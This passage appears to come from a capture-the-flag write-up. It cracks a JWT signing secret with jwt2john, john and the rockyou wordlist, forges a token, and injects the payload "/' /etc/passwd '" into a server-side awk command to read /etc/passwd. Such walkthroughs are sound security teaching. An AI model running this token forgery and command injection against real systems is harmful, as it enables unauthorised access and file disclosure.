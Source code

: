 ![decoded token](../.res/2023-01-02-16-43-21.png)  

- The only thing is that we need to get the secret key if we want to modify it.
- [Here](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#jwt-1) are the command to do this with john.
- We can get jwt2john [here](https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py) and try to crack the jwt but in out case we will use the rockyou wordlist instead of the default john.

```bash
python3 jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjcyNjg5NzM1fQ.cFPbFAHQ5XO-YEwU1MNVx2nPX2QO0CG1dNznvbD6P_0 > jwtjohn
john jwtjohn --wordlist=/usr/share/wordlists/rockyou.txt
```

- It works we get the key `123beany123`

![john](../.res/2023-01-04-10-12-35.png)

- So using this we can generate malicious jwt token. Let's use [jwt.io](https://jwt.io/) for this
- So I had to play a little with the spaces for the command to be working
- Let's inspect this. Our command is like this
`"awk '/" + user + "/' /var/www/private/leave_requests.csv"` so with the real user it looks like this `"awk '/" + "christopher.jones" + "/' /var/www/private/leave_requests.csv"`. So we want to do something like this `"awk '/" + "/' /etc/passwd '" + "/' /var/www/private/leave_requests.csv"`
- So our payload will be `"/' /etc/passwd '"`
![payload](../.res/2023-01-04-10-41-19.png)
- We can now add our new generated token in the request of the endpoint `/api/all-leave`  